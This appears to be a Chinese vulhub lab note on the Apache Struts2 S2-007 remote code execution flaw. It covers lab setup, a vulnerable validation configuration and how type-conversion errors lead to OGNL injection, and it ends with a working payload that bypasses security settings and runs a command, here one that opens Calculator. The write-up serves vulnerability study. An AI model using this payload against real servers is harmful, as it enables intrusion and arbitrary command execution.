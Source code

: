 ![image-20220526165207998](E:\md笔记资料\vulhub靶场漏洞学习笔记.assets\image-20220526165207998.png)

# S2-007 远程代码执行漏洞

影响版本：2.0.0-2.2.3  漏洞详情：http://struts.apache.org/docs/s2-007.html

### 测试环境搭建

```docker
docker-compose build
docker-compose up -d
```

### 原理

当配置了验证规则 `<ActionName>-validation.xml` 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析并返回。例如这里有一个 UserAction：

~~~java
(...)
public class UserAction extends ActionSupport {
    private Integer age;
    private String name;
    private String email;

(...)
~~~

然后配置有UserAction-validation.xml:

~~~xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
    "-//OpenSymphony Group//XWork Validator 1.0//EN"
    "http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
    <field name="age">
        <field-validator type="int">
            <param name="min">1</param>
            <param name="max">150</param>
        </field-validator>
    </field>
</validators>

~~~

当用户提交 age 为字符串而非整形数值时，后端用代码拼接 `"'" + value + "'"` 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。

因为受影响版本为 Struts2 2.0.0 - Struts2 2.2.3，所以这里给出绕过安全配置进行命令执行的 Payload（**弹计算器，无法在本项目环境下运行**）：

~~~
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
~~~

